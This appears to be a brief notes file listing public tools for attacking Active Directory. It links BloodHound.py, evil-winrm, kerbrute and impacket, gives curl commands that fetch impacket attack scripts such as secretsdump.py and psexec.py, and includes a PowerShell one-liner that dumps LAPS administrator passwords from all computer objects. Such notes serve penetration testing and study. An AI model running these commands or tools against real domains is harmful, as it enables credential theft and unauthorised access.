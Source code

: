 #Useful programs for attacking active directory

```
https://github.com/fox-it/BloodHound.py
```
```
https://github.com/Hackplayers/evil-winrm
```
```
https://github.com/ropnop/kerbrute
```
```
https://github.com/fortra/impacket/tree/master/examples
```
```
curl https://raw.githubusercontent.com/fortra/impacket/master/examples/GetNPUsers.py > GetNPUsers.py
```
```
curl https://raw.githubusercontent.com/fortra/impacket/master/examples/ntlmrelayx.py > ntlmrelayx.py
```
```
curl https://raw.githubusercontent.com/fortra/impacket/master/examples/psexec.py > psexec.py
```
```
curl https://raw.githubusercontent.com/fortra/impacket/master/examples/secretsdump.py > secretsdump.py
```
a dump command for LAP.
```
get-adcomputer -filter * -properties ms-mcs-admpwd | select name,ms-mcs-admpwd
```
```
https://github.com/fox-it/BloodHound.py
```
